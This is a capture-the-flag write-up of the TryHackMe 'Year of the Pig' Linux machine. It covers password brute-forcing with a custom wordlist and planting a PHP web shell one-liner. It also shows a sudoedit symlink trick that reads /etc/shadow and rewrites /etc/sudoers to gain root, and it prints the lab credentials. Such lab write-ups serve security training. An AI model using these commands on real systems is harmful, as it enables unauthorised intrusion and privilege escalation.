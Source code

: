 # Year of the Pig Writeup | TryHackMe



<pre>
</pre>



- OS: _Linux_
- Difficulty: _Hard_
- Creator: [_MuirlandOracle_](https://tryhackme.com/p/MuirlandOracle)

<pre>
</pre>

Year of the Pig is rated as a hard linux machine but I think it definitely could have been rated medium, anyways first step needed some custom wordlist generation and a custom script to brute force the password of the user then some basic linux privilege escalation that we are gonna get into.



## Nmap



![Image](https://i.imgur.com/KZNXFNL.png)



We can see that there are just 2 port open, those are 22 for SSH and 80 for http. And right from that nmap scan we can already see we have a possible username which is Marco. But anyways we go on to enumerate port 80 more.

## Web

On the front page we can see that Marco talks about planes a lot so we can surely say he loves them.

![Image](https://i.imgur.com/EjEg6iB.png)

Running gobuster we just get `/login.php` and `/api` that are interesting. Going to `/login.php` and trying some default credentials we get something interesting in the response.

![Image](https://i.imgur.com/psMLDc6.png)

It says `Remember that passwords should be a memorable word, followed by two numbers and a special character` , so that is hinting towards brute force of the login page, and also we need a custom wordlist. So to generate the wordlist as the login page says we need the following format:

```
{Memorable Word}{2 Numbers}{A special character} # For an example Marco99!
```

```

```

We can easily just guess the special character and the 2 numbers as the numbers go from 00 to 100, but we need a memorable word, and if we remember from earlier, Marco loves planes and talks about them a lot on the main page, so lets get some words from the page.

![Image](https://i.imgur.com/DpFS0QH.png)

Some words stand out, like the ones `Savoia`, `Macchi` and `Curtiss` so we should remember these three. Then I go on to create a python script to help me generate my custom wordlist:

![Image](https://i.imgur.com/j7ukYP8.png)

So for the input to the script we need to give it a wordlist containing just some basic words and then we give it the name to output the wordlist to.  The input wordlist I will use would look something like this:

![Image](https://i.imgur.com/iaBwpq9.png)

I named the file `input.wordlist`. Then we can run the python script with the syntax:

```
python3 generate-wordlist.py input.wordlist custom_wordlist.out
```

After running that command we get a file `custom_wordlist.out` that we can use as the wordlist to brute force the login password. But now we need to find a way to brute force the login page. We can use `BurpSuite` to see how does the web login page make a request towards the back-end. When intercepting the login request we can see the following:

![Image](https://i.imgur.com/oEdsI7o.png)

We see that it makes a POST request to /api/login with json in the data, that json contains username and the password, but that password is not a clear-text password, it is actually a md5 hash of the password we entered. So now I wrote yet another python script but this time to brute force the credentials. My script looks like this:

![Image](https://i.imgur.com/OYRfC5g.png)

The script takes 3 arguments, the first one is the IP of the machine, then it takes the wordlist to use and then it takes the username to brute force. The script is just going through each password in the wordlist and md5 hashing it then sending a POST request to /api/login with the json data. So when we run this script with the wordlist we generated earlier we get a hit:

![Image](https://i.imgur.com/UiTYbJQ.png)

After we login we see that we can run system commands, but commands seem very limited, so there is no way I could get a reverse shell from there, and later when we look at the files we see that actually there are just 5/6 certain commands we can run and that's it, so we can try SSH with the credentials we right now have which are `marco:savoia21!`.

![Image](https://i.imgur.com/bimDPAD.png)

And we successfully get into the box as user  `marco`.

## Privilege escalation

After some basic privilege escalation attempts, like `sudo -l`, finding SUID binaries with the command:

```
find / -perm -4200 -type f 2>/dev/null
```

we don't seem to find anything, but then enumerating the filesystem we find an interesting file inside /var/www which is named `admin.db` but only user `www-data` can read it, so we need to get www-data somehow. And if we remember from earlier when running the command `id` we can see that we are in the `web-developers` group, so that hints that we can probably write files inside /var/www/html, so I try just that:

```
echo '<?php system($_GET['c']); ?>' > /var/www/html/ryaagard.php && chmod 777 /var/www/html/ryaagard.php
```

After running that command we wrote a file called `ryaagard.php` inside the /var/www/html and then also ran `chmod 777` on it so any user can read the file and write to it. Then going over to `http://<MACHINE-IP>/ryaagard.php?c=id` we get code execution!

![Image](https://i.imgur.com/e6tW8dv.png)

So now we can read the `admin.db` file we found, I transfer it to my machine in the following screenshot and then open it in sqlite3:

![Image](https://i.imgur.com/ftWC7cr.png)

We can see there is a hash for curtis user, or there is 2 for some reason, anyways we take both to crackstation and 1 of those hashes gives us a clear-text password.

![Image](https://i.imgur.com/msxREM1.png)

And the new credentials we found are `curtis:Donald1983$`, with those we can run `su - curtis` on `marco` SSH session to get to `curtis` user.

As user `curtis` we run `sudo -l` and we get the following output:

![Image](https://i.imgur.com/8nnPaFG.png)

We can run `sudoedit /var/www/html/*/*/config.php` as any user on the box. But as `curtis` we can't write to /var/www/html, but `marco` can. So we run the next command as `marco`:

```
cd /var/www/html/ && mkdir -p temp/temp
```

To create the 2 directories. After that we think of what can we actually do with this sudoedit as root, and I remembered symbolic links. Basically we create a symbolic link called `config.php` inside /var/www/html/temp/temp/ and link it towards /etc/shadow, and we can do that by running the following command as `marco` user:

```
ln -s /etc/shadow /var/www/html/temp/temp/config.php
```

After we ran that command we go over to user `curtis` and run:

```
sudoedit /var/www/html/temp/temp/config.php
```

And we see the contents of /etc/shadow!

![Image](https://i.imgur.com/m0ZupYe.png)

To get root user I run to following commands:

(user `marco`)

```
ln -s /etc/sudoers /var/www/html/temp/temp/config.php
```

(user `curtis`)

```
sudoedit /var/www/html/temp/temp/config.php
```

And then we add this line anywhere in the file:

```
curtis ALL=(ALL) NOPASSWD:ALL
```

and save that file.

Then we can just run `sudo bash` as user `curtis`.

![Image](https://i.imgur.com/VnMHOaw.png)

And we successfully root the machine!

<pre>
</pre>

## Contact

- Twitter: [_ryaagard_](https://twitter.com/ryaagard)
- Discord: *ryaagard#5027*

